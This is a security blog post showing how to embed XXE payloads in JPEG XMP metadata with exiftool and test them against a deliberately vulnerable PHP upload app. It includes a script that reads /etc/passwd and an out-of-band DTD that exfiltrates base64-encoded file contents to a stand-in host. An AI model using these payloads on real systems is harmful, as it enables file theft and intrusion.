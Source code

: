 ```yaml
---
layout: post
title: "Creating xxe payloads in xmp metadata"
---
```


Recently I've read [an interesting post](https://sekurak.pl/czytanie-plikow-z-serwera-poprzez-zwykly-upload-awatara-zobaczcie-na-te-podatnosc/) that referenced [this](https://hackerone.com/reports/836877) disclosed hackerone report about xxe in image upload functionality. This isn't the most obvious place to look for xxes, so:

## How did it work?

An xxe payload was injected in jpeg's [xmp](https://en.wikipedia.org/wiki/Extensible_Metadata_Platform) metadata which is basically a piece of xml embedded in an image. Unfortunately, the report does not provide a step-by-step guide for payload creation, as the bug hunter used burp suite extension for this

>  I found this bug using the "Upload Scanner" extension, you can find it within the "Extender" option. See the screenshot for the configuration I used.

Since I liked this idea, I decided to find a simple way to create such payloads with free tools and write a vulnerable app for testing purpose.

## The app

Consider the following php app:

<div class="filename">index.php</div>
{% highlight php  linenos %}
<?php
// we assume that external entities are enabled.
libxml_disable_entity_loader(false);
?>

Read xmp author:

<form enctype="multipart/form-data" action="/" method="POST">
    Your file: <input name="userfile" type="file" />
    <input type="submit" value="Send" />
</form>


<?php

function readXmp($filename)
{
    $tmpPath = $_FILES[$filename]['tmp_name'];
    $results = [];
    exec("exiftool -xmp -b $tmpPath", $results);
    return trim(implode('', $results));
}

function readMakerNote($xml)
{
    $dom = new DOMDocument();
    $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    foreach ($dom->getElementsByTagNameNS("*", "MakerNote") as $noteNode) {
        return $noteNode->nodeValue;
    }
}

if (isset($_FILES['userfile'])) {
    $xmp = readXmp('userfile');
    $note = readMakerNote($xmp);
    echo "MakerNote is: $note";
}

?>
{% endhighlight %}

It takes an uploaded image, extracts xmp data, parses it to get the value of first `MakerNote` tag ignoring namespaces and then displays it to the user.

If external entities are enabled, we can define one and simply put it in `MakerNote` tag as it will be reflected in response. So we have a target for testing purposes.

Let's create some payloads.

## The mighty exiftool

First, let's define `MakerNote` in some jpg image:

{% highlight bash %}
$ exiftool -xmp:MakerNote=somenote some_image.jpg
    1 image files updated
{% endhighlight %}

and check how our xmp looks like:

{% highlight bash %}
$ exiftool -xmp -b some_image.jpg

<?xpacket begin='\xef\xbb\xbf' id='W5M0MpCehiHzreSzNTczkc9d'?>
<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image::ExifTool 10.80'>
<rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
 <rdf:Description rdf:about=''
  xmlns:exif='http://ns.adobe.com/exif/1.0/'>
  <exif:MakerNote>somenote</exif:MakerNote>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
# lot's of 0x20's and 0x0a's here
<?xpacket end='w'?>
{% endhighlight %}

Cool, but this whole xml was generated by exiftool and we need more control :). How do we define it ourself? The following syntax does the job:

{% highlight bash %}
$ exiftool -xmp="YOUR_XMP" some_image.jpg
{% endhighlight %}

## The payload

Now, let's spice up what exiftool gave us with basic xxe payload:

<div class="filename">create_payload.sh</div>
{% highlight bash %}
#/bin/bash

xmp_data="
<?xpacket begin='﻿' id='W5M0MpCehiHzreSzNTczkc9d'?>
<!DOCTYPE x [
  <!ENTITY sp SYSTEM \"file:///etc/passwd\">
]>
<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image::ExifTool 10.80'>
<rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
 <rdf:Description rdf:about=''
  xmlns:exif='http://ns.adobe.com/exif/1.0/'>
  <exif:MakerNote>&sp;</exif:MakerNote>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
<?xpacket end='r'?>
"
xmp_data=$(echo $xmp_data | sed 's/\n//g') # getting rid of nl characters

exiftool -xmp="$xmp_data" $@
{% endhighlight %}

{% highlight bash %}
$ ./create_payload.sh some_image.jpg
    1 image files updated
{% endhighlight %}

And it seems to work!
<br>
<br>
<br>
![xxe]({{ "/assets/xxe_xmp_payload.png" | relative_url }})

## Blind xxe

But what if an app is not reflecting processed metadata? For example, `MakerNote` may be just stored somewhere and never displayed to a user:


{% highlight php %}
//...
function store($makerNote)
{
    //...
}
//...

if (isset($_FILES['userfile'])) {
    $xmp = readXmp('userfile');
    $note = readMakerNote($xmp);
    store($note);
}
{% endhighlight %}

Then we can ssrf out of this situation using following dtd's

One in our xmp:
{% highlight xml %}
<!DOCTYPE x [
  <!ELEMENT x ANY>
  <!ENTITY % remote SYSTEM \"http://your-domain.com/my.dtd\">
  <!ENTITY % file SYSTEM \"php://filter/read=convert.base64-encode/resource=file:///etc/hostname\">
  %remote;
]>
{% endhighlight %}
and one on our domain:
<div class="filename">my.dtd</div>
```
<!ENTITY % uri "http://your-domain.com/%file;"> 
<!ENTITY % eval '<!ENTITY exfiltrate SYSTEM "%uri;">'> 
%eval;
```

### Wait what?

For some reason, in php you need to declare `%eval` in an external dtd. Otherwise, you get:

```
DOMDocument::loadXML(): PEReferences forbidden in internal subset in Entity
```
(More about ssrf in xxe and this problem [here](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band) and [here](https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/).)

<br>
Also note that base64 encoding is mandatory to form a valid url when the file you are including contains new lines. Here we get it for free with [php:// pseudoprotocol](https://www.php.net/manual/en/wrappers.php.php), but for other languages we need to find some other tricks.

### Outcome

If everything goes well, you should see something like this in your webserver's logs:

```
remote-domain.com - - [28/Apr/2020:22:10:54 +0200] "GET /my.dtd HTTP/1.0" 200 330 "-" "-"
remote-domain.com - - [28/Apr/2020:22:10:54 +0200] "GET /bXkgaG9zdG5hbWUgaXMgbm9uZSBvZiB5b3VyIGJ1c2luZXNzISA6KQo= HTTP/1.0" 404 455 "-" "-"
```

Happy xxeing file uploads!
